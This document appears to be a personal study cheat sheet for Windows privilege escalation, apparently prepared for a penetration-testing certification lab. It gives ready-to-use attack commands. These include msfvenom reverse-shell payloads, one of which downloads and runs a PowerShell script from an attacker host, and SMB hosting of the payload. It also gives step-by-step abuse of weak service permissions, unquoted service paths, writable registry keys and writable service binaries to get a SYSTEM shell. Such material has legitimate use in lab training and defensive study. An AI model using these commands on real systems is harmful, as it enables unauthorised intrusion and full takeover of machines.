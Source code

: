 # Windows Escalation Paths
---------------------------

This document captures in my preparation journey various Escalation Paths in Windows to get to Authority \ System.  
A couple of golden resources that you need to be aware of and should be referenced frequently 
- [PayloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- [Sushant's Blog](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)
- [YouTube Link - Sagi Shahar](https://www.youtube.com/results?search_query=sagi+shahar)  



### Reverse Shell - Couple of Methods
--------------------------------------

1. **Method1** Generate a reverse shell executable through any standard payload 



> **msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe**



As a next step, host this through a simple Python Server or through **SMB share**. You know Python server, here is the command for SMB share



> **sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .**


Note that the SMB server has to be set up in the same folder where the reverse.exe is (just like python server)

On the Target Windows machine you need to run the following command


> **copy \\\\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe**

Replace 10.10.10.10 with whatever IP the attach machine has.

And then run the reverse.exe file on the victim machine



2. **Method2** Generating a Powershell session by invoking Nishang's Reverse Shell into the memory directly



In this scenario we create a reverse shell in 2 steps. The payload generated via MSFVENOM launches a CMD.EXE with a command to launch PowerShell that invokes IEX and connects to a hosting server (Python Server) the necessary Reverse Shell File. It invokes the Reverse Shell into memory and is thus executed directly and within script one can pass the reverse shell IP address & port and listen on it. 

Here is how we do it. 



> msfvenom -p windows/exec CMD="powershell \\"iex(New-Object Net.WebClient).downloadString('http://10.10.14.21/rev.ps1')\"" -o reverse_pshell.exe




In here we are generating an EXE file which then needs to be run at the target box.







### Escalation Path 1 - Kernel Exploits
----------------------------------------

Kernel exploits present a very powerful way to escalate your privileges as it works directly with a kernel. Normally, you run a binary/executable and that should give you some kind of escalation of privileges on the box. 

**Resources**
-------------
https://github.com/SecWiki/windows-kernel-exploits

**Methodology**
---------------
1. Get some kind of a shell as part of initial foothold. This will depend on how you intend to escalate
	- Metasploit - For this you can use a payload of **windows/meterpreter/reverse_tcp** and run a handler to catch the shell
	- Manual - For this you can use a payload of **windows/shell_reverse_tcp** and run a NETCAT listener to catch the shell

2. Do local enumeration with the obtained shell 

3. Check on Exploit suggester to see if Kernel exploits are available. In case if they are go to the resource mentioned in the link.

4. See the methodology to get an escalated session and escalate privileges




### Escalation Path 2 - Insecure Service Permissions
------------------------------------------------------


Use accesschk.exe to check for a given user's access on a suspicious service - something that will get flagged with PowerUp.ps1
Here the example service is: daclsvc



> **C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc**


Note that the "user" account has the permission to change the service config (SERVICE_CHANGE_CONFIG).

Query the service and note that it runs with SYSTEM privileges (SERVICE_START_NAME):


> **sc qc daclsvc**



Modify the service config and set the BINARY_PATH_NAME (binpath) to the reverse.exe executable you created:


> **sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""**


Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:


> **net start daclsvc**

  







### Escalation Path 3 - Unquoted Service Paths
--------------------------------------------------


**Step 1:** Query the "unquotedsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME) and that the BINARY_PATH_NAME is unquoted and contains spaces.

> **sc qc unquotedsvc**



**Step 2:** Using accesschk.exe, note that the BUILTIN\Users group is allowed to write to the C:\Program Files\Unquoted Path Service\ directory:

> **C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"**



**Step 3:** Copy the reverse.exe executable you created to this directory and rename it Common.exe:



> **copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"**


**Step 4:** Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:


> **net start unquotedsvc**


   





### Escalation Path 4 - Weak Registry Permissions
---------------------------------------------------


**Step 1:** Query the culprit service (e.g. regsvc) and note that it run with SYSTEM privileges (SERVICE_START_NAME)

> **sc qc regsvc**



**Step 2:** Using accesschk.exe note that the registry entry for the culprit service (regsvc) is writable by "NT AUTHORIT\INTERACTIVE" - This group is essentiall all logged on users that include the current user

> **C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc**



**Step 3:** Overwrite the ImagePath Registry Key to point to reverse.exe

> **reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f**




**Step 4:** Listen on Netcat after starting the service

> **net start regsvc**






### Escalation Path 5 - Insecure Service Executables
------------------------------------------------------


**Step 1:** Query the culprit service (e.g. filepermsvc here) and note that it runs with SYSTEM privileges (SERVICE_START_NAME)


> **sc qc filepermsvc**



**Step 2:** Use accesschk.exe and note that the service binary (BINARY_PATH_NAME) file is writable by everyone

> **C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"**


**Step 3:** Copy the reverse.exe to the writable location

> **copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y**



**Step 4:** Start a listener and initiate the service

> **net start filepermsvc**










